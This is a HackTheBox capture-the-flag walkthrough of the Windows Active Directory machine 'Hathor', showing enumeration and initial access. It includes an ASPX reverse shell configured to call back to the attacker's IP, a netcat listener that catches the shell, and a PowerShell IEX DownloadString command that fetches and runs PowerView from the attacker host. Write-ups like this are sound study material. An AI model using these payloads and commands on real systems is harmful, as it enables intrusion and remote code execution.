

# CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Hathor](https://www.hackthebox.com/machines/Hathor)


- Machine type:  Windows
- Machine difficulty: ⬜ Insane (<span style="color:#e63c35;">7.5</span>)

> Hathor is an insane Windows Active Directory machine that starts with a webpage that is currently under construction. The CMS used for the webpage is the `mojoPortal` CMS. Since the CMS is open source, an attacker is able to find the default credentials used in the Admin panel straight away. It turns out that the credentials have not been modified on the remote machine and the attacker gets access to the Admin panel. There, it is discovered that any file with the extension `.txt` can be uploaded on the remote server. So, an attacker could leverage this and upload a webshell with the `.txt` extension. Then, the `Copy` option allows the attacker to switch back the extension to `.aspx` and execute the webshell. Now, the attacker has access to the remote machine. Enumerating the remote environment, it is discovered that AppLocker is enabled and that there are some strict firewall rules. Further enumeration reveals a folder with the project [Get-bADpasswords](https://github.com/improsec/Get-bADpasswords). Inside the folder, the hash of the user `BeatriceMill` can be recovered and cracked to reveal a clear text password. Afterwards, it is discovered that NTLM authentication is disabled, so a Kerberos ticket needs to be created in order to access the SMB service as the user `beatricemill`. The user `beatricemill` can overwrite a DLL file that is used by a periodically spawning process. Thus, an attacker is able to overwrite the DLL file with a malicious one that contains a proper payload to get a reverse shell as the user ginawild . The newly compromised user has a certificate in her Recycle Bin issued to the user Administrator for code signing purposes. Furthermore, `ginawild` is able to overwrite the contents of `Get-bADpasswords.ps1` a script that can query the DC for password hashes of all users. So, the attacker can alter the contents of the script to request the hash of the `Administrator`, sign it with the certificate and get the NT hash of the `Administrator`. With this hash, a Kerberos ticket can be retrieved that allows access to the remote machine through WinRM as the user `Adminsitrator`.

#### Tools Used

**Linux**:
- crackpkcs12
- evil-winrm
- impacket-getTGT
- impacket-smbclient
- impacket-wmiexec
- john
- kerbrute
- netcat
- netexec
- nmap
- openssl
- smbclient
- tcpdump
- whatweb

**Windows**:
- accesschk.exe
- nc64.exe
- reg.exe

#### Skills Required

- AD Enumeration
- Source Code Review
- AppLocker Policy Review
- Password Cracking

#### Skills Learned

- CMS Exploitation
- DLL Injection
- Script Certifcate Signing
- Kerberos Authentication

#### Machine Writeup


`ifconfig tun0`:
```
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.37📌 netmask 255.255.254.0  destination 10.10.14.37
        inet6 fe80::3960:a655:e92b:54ca  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1023  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 15086  bytes 1444824 (1.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 30939  bytes 39318029 (37.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping 10.10.11.147`:
```
10.10.11.147 is alive
```

`sudo nmap -Pn -sSV -p- -T5 10.10.11.147`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 10:12 EST
Nmap scan report for 10.10.11.147
Host is up (0.12s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0🌐
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-14 15:16:16Z)🌐
135/tcp   open  msrpc         Microsoft Windows RPC🌐
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn🌐
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: windcorp.htb0., Site: Default-First-Site-Name)🌐
445/tcp   open  microsoft-ds?🌐
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: windcorp.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: windcorp.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: windcorp.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)🌐
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
50515/tcp open  msrpc         Microsoft Windows RPC
59838/tcp open  msrpc         Microsoft Windows RPC
63585/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: HATHOR; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 305.77 seconds
```

`sudo nmap -Pn -sS --script=ldap-rootdse -p389 10.10.11.147`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 10:12 EST
Nmap scan report for 10.10.11.147
Host is up (0.12s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       domainFunctionality: 7
|       forestFunctionality: 7
|       domainControllerFunctionality: 7
|       rootDomainNamingContext: DC=windcorp,DC=htb
|       ldapServiceName: windcorp.htb:hathor$@WINDCORP.HTB
|       isGlobalCatalogReady: TRUE
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2
|       supportedLDAPPolicies: MaxPoolThreads
|       supportedLDAPPolicies: MaxPercentDirSyncRequests
|       supportedLDAPPolicies: MaxDatagramRecv
|       supportedLDAPPolicies: MaxReceiveBuffer
|       supportedLDAPPolicies: InitRecvTimeout
|       supportedLDAPPolicies: MaxConnections
|       supportedLDAPPolicies: MaxConnIdleTime
|       supportedLDAPPolicies: MaxPageSize
|       supportedLDAPPolicies: MaxBatchReturnMessages
|       supportedLDAPPolicies: MaxQueryDuration
|       supportedLDAPPolicies: MaxDirSyncDuration
|       supportedLDAPPolicies: MaxTempTableSize
|       supportedLDAPPolicies: MaxResultSetSize
|       supportedLDAPPolicies: MinResultSets
|       supportedLDAPPolicies: MaxResultSetsPerConn
|       supportedLDAPPolicies: MaxNotificationPerConn
|       supportedLDAPPolicies: MaxValRange
|       supportedLDAPPolicies: MaxValRangeTransitive
|       supportedLDAPPolicies: ThreadMemoryLimit
|       supportedLDAPPolicies: SystemMemoryLimitPercent
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.840.113556.1.4.801
|       supportedControl: 1.2.840.113556.1.4.473
|       supportedControl: 1.2.840.113556.1.4.528
|       supportedControl: 1.2.840.113556.1.4.417
|       supportedControl: 1.2.840.113556.1.4.619
|       supportedControl: 1.2.840.113556.1.4.841
|       supportedControl: 1.2.840.113556.1.4.529
|       supportedControl: 1.2.840.113556.1.4.805
|       supportedControl: 1.2.840.113556.1.4.521
|       supportedControl: 1.2.840.113556.1.4.970
|       supportedControl: 1.2.840.113556.1.4.1338
|       supportedControl: 1.2.840.113556.1.4.474
|       supportedControl: 1.2.840.113556.1.4.1339
|       supportedControl: 1.2.840.113556.1.4.1340
|       supportedControl: 1.2.840.113556.1.4.1413
|       supportedControl: 2.16.840.1.113730.3.4.9
|       supportedControl: 2.16.840.1.113730.3.4.10
|       supportedControl: 1.2.840.113556.1.4.1504
|       supportedControl: 1.2.840.113556.1.4.1852
|       supportedControl: 1.2.840.113556.1.4.802
|       supportedControl: 1.2.840.113556.1.4.1907
|       supportedControl: 1.2.840.113556.1.4.1948
|       supportedControl: 1.2.840.113556.1.4.1974
|       supportedControl: 1.2.840.113556.1.4.1341
|       supportedControl: 1.2.840.113556.1.4.2026
|       supportedControl: 1.2.840.113556.1.4.2064
|       supportedControl: 1.2.840.113556.1.4.2065
|       supportedControl: 1.2.840.113556.1.4.2066
|       supportedControl: 1.2.840.113556.1.4.2090
|       supportedControl: 1.2.840.113556.1.4.2205
|       supportedControl: 1.2.840.113556.1.4.2204
|       supportedControl: 1.2.840.113556.1.4.2206
|       supportedControl: 1.2.840.113556.1.4.2211
|       supportedControl: 1.2.840.113556.1.4.2239
|       supportedControl: 1.2.840.113556.1.4.2255
|       supportedControl: 1.2.840.113556.1.4.2256
|       supportedControl: 1.2.840.113556.1.4.2309
|       supportedControl: 1.2.840.113556.1.4.2330
|       supportedControl: 1.2.840.113556.1.4.2354
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       supportedCapabilities: 1.2.840.113556.1.4.2237
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=windcorp,DC=htb
|       serverName: CN=HATHOR,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=windcorp,DC=htb
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=windcorp,DC=htb
|       namingContexts: DC=windcorp,DC=htb
|       namingContexts: CN=Configuration,DC=windcorp,DC=htb
|       namingContexts: CN=Schema,CN=Configuration,DC=windcorp,DC=htb
|       namingContexts: DC=DomainDnsZones,DC=windcorp,DC=htb
|       namingContexts: DC=ForestDnsZones,DC=windcorp,DC=htb
|       isSynchronized: TRUE
|       highestCommittedUSN: 655992
|       dsServiceName: CN=NTDS Settings,CN=HATHOR,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=windcorp,DC=htb
|       dnsHostName: hathor.windcorp.htb📌
|       defaultNamingContext: DC=windcorp,DC=htb
|       currentTime: 20250114151215.0Z
|_      configurationNamingContext: CN=Configuration,DC=windcorp,DC=htb
Service Info: Host: HATHOR; OS: Windows

Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
```

`echo -e '10.10.11.147\thathor.windcorp.htb hathor windcorp.htb' | sudo tee -a /etc/hosts`:
```
10.10.11.147    hathor.windcorp.htb hathor windcorp.htb
```

`netexec smb 10.10.11.147`:
```
SMB         10.10.11.147    445    10.10.11.147     [*]  x64 (name:10.10.11.147) (domain:10.10.11.147) (signing:True) (SMBv1:False)📌
```

`netexec smb 10.10.11.147 -u '' -p ''`:
```
SMB         10.10.11.147    445    10.10.11.147     [*]  x64 (name:10.10.11.147) (domain:10.10.11.147) (signing:True) (SMBv1:False)
SMB         10.10.11.147    445    10.10.11.147     [-] 10.10.11.147\: STATUS_NOT_SUPPORTED 
```
❌

`cat /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt | awk '{print tolower($s0)}' | sort -u > ./xato_usernames_lowercase.txt | head -n 10`:
```
5goolphic
1c4018
!4307quant
!449011
!456654
!8zj39le
!a!
!airborne!
!applet
!b4rr3ll
```

`kerbrute userenum --dc 10.10.11.147 -d 'windcorp.htb' ./xato_usernames_lowercase.txt`:
```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/14/25 - Ronnie Flathers @ropnop

2025/01/14 10:18:35 >  Using KDC(s):
2025/01/14 10:18:35 >   10.10.11.147:88

2025/01/14 10:19:37 >  Done! Tested 4763 usernames (0 valid) in 61.949 seconds
```
❌

`firefox http://10.10.11.147 &`


`whatweb http://10.10.11.147`:
```
http://10.10.11.147 [200 OK] ASP_NET[4.0.30319], Bootstrap, Cookies[ASP.NET_SessionId], Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], HttpOnly[ASP.NET_SessionId], IP[10.10.11.147], JQuery[3.2.1], Microsoft-IIS[10.0], OpenSearch[http://10.10.11.147/SearchEngineInfo.ashx], Script[text/javascript], Title[Home - mojoPortal]📌[Title element contains newline(s)!], X-Powered-By[ASP.NET], X-UA-Compatible[ie=edge]
```

`curl http://10.10.11.147/`:
```html
<!DOCTYPE html>
<html class="htmlclass">
        <head id="ctl00_Head1"><meta charset="utf-8" /><meta http-equiv="x-ua-compatible" content="ie=edge" /><title>
        Home - mojoPortal📌

[...]
```


`wget https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx`:
```
--2025-01-14 10:33:06--  https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15968 (16K) [text/plain]
Saving to: ‘shell.aspx’

shell.aspx                                      100%[====================================================================================================>]  15.59K  --.-KB/s    in 0.03s   

2025-01-14 10:33:07 (507 KB/s) - ‘shell.aspx’ saved [15968/15968]
```

`mv ./shell.aspx ./revsh.aspx`

`cat ./revsh.aspx`:
```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
    
        protected void Page_Load(object sender, EventArgs e)
    {
            String host = "10.10.14.37"; //CHANGE THIS
            int port = 4444; ////CHANGE THIS
                
        CallbackShell(host, port);
    }
    
[...]
```


`cp ./revsh.aspx ./revsh.txt`


`rlwrap nc -lnvp 4444`:
```
listening on [any] 4444 ...
```




`curl -s http://10.10.11.147/Data/Sites/1/media/reverse_shell/revsh.aspx`

```
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.147] 49801
Spawn Shell...
Microsoft Windows [Version 10.0.20348.643]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>powershell.exe -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\windows\system32\inetsrv>
```
🐚


`whoami`:
```
windcorp\web
```

`whoami /all`:
```
USER INFORMATION
----------------

User Name    SID                                            
============ ===============================================
windcorp\web S-1-5-21-3783586571-2109290616-3725730865-22101


GROUP INFORMATION
-----------------

Group Name                              Type             SID                                                           Attributes                                        
======================================= ================ ============================================================= ==================================================
Everyone                                Well-known group S-1-1-0                                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                           Alias            S-1-5-32-545                                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access Alias            S-1-5-32-574                                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                      Well-known group S-1-5-3                                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                           Well-known group S-1-2-1                                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users        Well-known group S-1-5-11                                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization          Well-known group S-1-5-15                                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                       Alias            S-1-5-32-568                                                  Mandatory group, Enabled by default, Enabled group
LOCAL                                   Well-known group S-1-2-0                                                       Mandatory group, Enabled by default, Enabled group
IIS APPPOOL\DefaultAppPool              Well-known group S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication        Well-known group S-1-5-64-10                                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level  Label            S-1-16-8192                                                                                                     


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                        State   
============================= ================================== ========
SeAssignPrimaryTokenPrivilege Replace a process level token      Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process Disabled
SeMachineAccountPrivilege     Add workstations to domain         Disabled
SeAuditPrivilege              Generate security audits           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking           Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set     Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

`dir C:\Users\`:
```
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of C:\Users

02/16/2022  10:00 PM    <DIR>          .
02/15/2022  09:04 PM    <DIR>          .NET v4.5
02/15/2022  09:04 PM    <DIR>          .NET v4.5 Classic
10/05/2021  05:44 PM    <DIR>          AbbyMurr
03/25/2022  03:51 PM    <DIR>          Administrator
10/01/2021  05:49 PM    <DIR>          BeatriceMill👤
10/03/2021  04:13 PM    <DIR>          bpassrunner
03/21/2022  02:48 PM    <DIR>          GinaWild👤
09/24/2021  07:26 AM    <DIR>          Public
03/17/2022  02:46 PM    <DIR>          web👤
               0 File(s)              0 bytes
              10 Dir(s)   9,349,742,592 bytes free
```


`locate -i 'powerview.ps1'`:
```
/home/nabla/tools/PowerSploit/Recon/PowerView.ps1
/usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/powerview.ps1
/usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

`cp /home/nabla/tools/PowerSploit/Recon/PowerView.ps1 ./`

`python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


`IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PowerView.ps1')`:
```
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PowerView.ps1') New-Object : Cannot create type. Only core types are supported in this language mode. At line:1 char:6 + IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14 ... + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ + CategoryInfo : PermissionDenied: (:) [New-Object], PSNotSupportedException + FullyQualifiedErrorId : CannotCreateTypeConstrainedLanguage,Microsoft.PowerShell.Commands.NewObjectCommand
```
❌

`$ExecutionContext.SessionState.LanguageMode`:
```
ConstrainedLanguage📌
```

`Get-AppLockerPolicy -Effective -xml`:
```xml
[...]

<FilePublisherRule Id="5b74e91f-e7d9-4348-a21b-047d2901c659" Name="Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US" UserOrGroupSid="S-1-1-0" Action="Allow">📌
  <Conditions>
    <FilePublisherCondition PublisherName="O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US" ProductName="*" BinaryName="*">
      <BinaryVersionRange LowSection="*" HighSection="*" />
    </FilePublisherCondition>
  </Conditions>
</FilePublisherRule>

[...]

<FilePathRule Id="059bf360-e712-427a-8255-59d182bc4cd5" Name="%OSDRIVE%\share\scripts\7-zip64.dll" UserOrGroupSid="S-1-1-0" Action="Allow">
  <Conditions>
    <FilePathCondition Path="%OSDRIVE%\share\scripts\7-zip64.dll" />
  </Conditions>
  <Exceptions>
    <FilePathCondition Path="%OSDRIVE%\share\scripts\7-zip64.dll:*" />
  </Exceptions>
</FilePathRule>

[...]

<FilePublisherRule Id="754a60b8-3945-4ea3-ba37-f9ae529297f3" Name="Signed by O=AUTOIT CONSULTING LTD, L=BIRMINGHAM, C=GB" Description="" UserOrGroupSid="S-1-1-0" Action="Allow">📌
    <Conditions>
        <FilePublisherCondition PublisherName="O=AUTOIT CONSULTING LTD, L=BIRMINGHAM, C=GB" ProductName="*" BinaryName="*">
            <BinaryVersionRange LowSection="*" HighSection="*" />
        </FilePublisherCondition>
    </Conditions>
</FilePublisherRule>

[...]

<FilePathRule Id="39b55ed3-c958-4d5c-846e-e338b7387fc9" 
              Name="%OSDRIVE%\share\Bginfo64.exe" 
              Description="" 
              UserOrGroupSid="S-1-1-0" 
              Action="Allow">📌
    <Conditions>
        <FilePathCondition Path="%OSDRIVE%\share\Bginfo64.exe" />
    </Conditions>
</FilePathRule>

[...]

<FilePathRule Id="921cc481-6e17-4653-8f75-050b80acca20" Name="(Default Rule) All files located in the Program Files folder" UserOrGroupSid="S-1-1-0" Action="Allow">
  <Conditions>
    <FilePathCondition Path="%PROGRAMFILES%\*" />
  </Conditions>
</FilePathRule>

[...]
```

`Get-AppLockerPolicy -Effective | Format-List -Property *`:
```
Version             : 1
RuleCollections     : {0, 0, 0, 0...}
RuleCollectionTypes : {Appx, Dll, Exe, Msi...}📌
```

`dir C:\inetpub\wwwroot\`:
```
    Directory: C:\inetpub\wwwroot

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         2/15/2022   8:51 PM                Admin
d-----         2/15/2022   8:51 PM                App_Browsers
d-----         2/15/2022   8:51 PM                App_GlobalResources
d-----         2/15/2022   8:51 PM                App_MasterPages
d-----         2/15/2022   8:51 PM                App_Themes
d-----         2/15/2022   8:43 PM                aspnet_client
d-----         2/15/2022   8:51 PM                BetterImageGallery
d-----         2/15/2022   8:51 PM                bin
d-----         2/15/2022   8:51 PM                BingMap
d-----         2/15/2022   8:51 PM                Blog
d-----         2/15/2022   8:51 PM                ClientScript
d-----         2/15/2022   8:51 PM                Comments
d-----         2/15/2022   8:51 PM                ContactForm
d-----         2/15/2022   8:51 PM                Content
d-----         2/15/2022   8:51 PM                Controls
d-----         4/19/2022   1:46 PM                Data📌
d-----         2/15/2022   8:52 PM                DesignTools
d-----         2/15/2022   8:52 PM                DevAdmin
d-----         2/15/2022   8:52 PM                Dialog
d-----         2/15/2022   8:52 PM                eletter
d-----         2/15/2022   8:52 PM                EventCalendar
d-----         2/15/2022   8:52 PM                FeedManager
d-----         2/15/2022   8:52 PM                FolderGallery
d-----         2/15/2022   8:52 PM                Forums

[...]
```

`(Get-Acl -Path "C:\inetpub\wwwroot\Data\Sites\1\media").Access`:
```
[...]

FileSystemRights  : FullControl
AccessControlType : Allow
IdentityReference : BUILTIN\Administrators
IsInherited       : True
InheritanceFlags  : None
PropagationFlags  : None

FileSystemRights  : 268435456
AccessControlType : Allow
IdentityReference : BUILTIN\Administrators
IsInherited       : True
InheritanceFlags  : ContainerInherit, ObjectInherit
PropagationFlags  : InheritOnly

FileSystemRights  : ReadAndExecute, Synchronize
AccessControlType : Allow
IdentityReference : BUILTIN\Users📌
IsInherited       : True
InheritanceFlags  : None
PropagationFlags  : None

[...]
```


`locate -i 'accesschk'`:
```
/home/nabla/tools/Sysinternals/AccessChk.zip
/home/nabla/tools/Sysinternals/accesschk.exe
/home/nabla/tools/Sysinternals/accesschk64.exe
/home/nabla/tools/Sysinternals/accesschk64a.exe
```

`cp /home/nabla/tools/Sysinternals/accesschk64.exe ./accesschk.txt`


`dir C:\inetpub\wwwroot\Data\Sites\1\media`:
```
    Directory: C:\inetpub\wwwroot\Data\Sites\1\media


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         3/21/2022   2:13 PM                htmlfragments
d-----         3/21/2022   2:13 PM                logos
d-----         1/14/2025   5:07 PM                reverse_shell
d-----         2/15/2022   9:17 PM                xml
d-----         2/15/2022   9:17 PM                xsl
-a----         1/15/2025  11:00 AM         810416 accesschk.txt📌
-a----         1/14/2025   4:45 PM          15971 revsh.aspx
-a----         2/16/2022  10:32 PM          37585 underconstruction.png 
```

`rename-item -path "C:\inetpub\wwwroot\Data\Sites\1\media\accesschk.txt" -newname "accesschk.exe"`

`C:\inetpub\wwwroot\Data\Sites\1\media\accesschk.exe -w -s "Users" "C:\\Windows" -u -accepteula > C:\inetpub\wwwroot\Data\Sites\1\media\accesschk_output.txt`

`type C:\inetpub\wwwroot\Data\Sites\1\media\accesschk_output.txt`:
```
Accesschk v6.15 - Reports effective permissions for securable objects
Copyright (C) 2006-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

RW C:\Windows\Temp📌
RW C:\Windows\tracing
RW C:\Windows\Registration\CRMLog
RW C:\Windows\System32\Microsoft\Crypto\DSS\MachineKeys
RW C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
RW C:\Windows\System32\spool\drivers\color📌
RW C:\Windows\Temp\silconfig.log
RW C:\Windows\Temp\vmware-vmtoolsd-GinaWild.log
RW C:\Windows\Temp\vmware-vmusr-GinaWild.log
```

`(Get-Acl -Path "C:\Windows\System32\spool\drivers\color").Access`:
```
[...]

FileSystemRights  : Modify, Synchronize
AccessControlType : Allow
IdentityReference : NT AUTHORITY\SYSTEM
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

FileSystemRights  : FullControl
AccessControlType : Allow
IdentityReference : NT AUTHORITY\SYSTEM
IsInherited       : False
InheritanceFlags  : ContainerInherit, ObjectInherit
PropagationFlags  : InheritOnly

FileSystemRights  : Modify, Synchronize
AccessControlType : Allow
IdentityReference : BUILTIN\Administrators
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

FileSystemRights  : FullControl
AccessControlType : Allow
IdentityReference : BUILTIN\Administrators
IsInherited       : False
InheritanceFlags  : ContainerInherit, ObjectInherit
PropagationFlags  : InheritOnly

FileSystemRights  : CreateFiles, ReadAndExecute, Synchronize
AccessControlType : Allow
IdentityReference : BUILTIN\Users📌
IsInherited       : False
InheritanceFlags  : ContainerInherit, ObjectInherit
PropagationFlags  : None

[...]
```

`Invoke-WebRequest -Uri http://10.10.14.37/PowerView.ps1 -OutFile C:\Windows\System32\spool\drivers\color\PowerView.ps1`:
```
Invoke-WebRequest : Unable to connect to the remote server
At line:1 char:1
+ Invoke-WebRequest -Uri http://10.10.14.37/PowerView.ps1 -OutFile C:\W ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (System.Net.HttpWebRequest:HttpWebRequest) [Invoke-WebRequest], WebExc 
   eption
    + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand
```
❌

`Test-NetConnection -ComputerName 10.10.14.37 -Port 80`:
```
WARNING: TCP connect to (10.10.14.37 : 80) failed

ComputerName           : 10.10.14.37
RemoteAddress          : 10.10.14.37
RemotePort             : 80
InterfaceAlias         : Ethernet0 2
SourceAddress          : 10.10.11.147
PingSucceeded          : True
PingReplyDetails (RTT) : 118 ms
TcpTestSucceeded       : False
```
❌

`reg.exe query HKLM\Software\Policies\Microsoft\WindowsFirewall\FirewallRules > C:\Windows\System32\spool\drivers\color\firewall_rules.txt`

`type C:\Windows\System32\spool\drivers\color\firewall_rules.txt`:
```
[...]

Microsoft-Windows-PeerDist-HttpTrans-In    REG_SZ    v2.31|Action=Allow|Active=FALSE|Dir=In|Protocol=6|LPort=80|App=SYSTEM|Name=@peerdistsh.dll,-10000|Desc=@peerdistsh.dll,-11000|EmbedCtxt=@peerdistsh.dll,-9000|

[...]

    {0428E35C-5C69-4743-8F0F-AEDDE87B2992}    REG_SZ    v2.31|Action=Allow|Active=TRUE|Dir=In|Protocol=6|Profile=Private|App=C:\share\support.exe|Name=AnyDesk|
    {36516C13-1766-44F3-ABAB-F195E1B51E0A}    REG_SZ    v2.31|Action=Allow|Active=TRUE|Dir=In|Protocol=17|Profile=Private|App=C:\share\support.exe|Name=AnyDesk|
    {932DE379-9955-4A01-A143-86D3412E719A}    REG_SZ    v2.31|Action=Allow|Active=TRUE|Dir=In|Protocol=6|Profile=Domain|App=C:\share\support.exe|Name=AnyDesk|
    {7946F69D-A2A3-4CAE-A7D4-194A56788DD6}    REG_SZ    v2.31|Action=Allow|Active=TRUE|Dir=In|Protocol=17|Profile=Domain|App=C:\share\support.exe|Name=AnyDesk|
    {A9F56E20-EEC3-4474-AEDD-2C72408DBAFF}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|App=%SystemRoot%\System32\cscript.exe|Name=cscript64|
    {37DD9C06-43BA-420D-B50A-F16D8A85ACA5}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|App=%SystemRoot%\SysWOW64\cscript.exe|Name=cscript32|
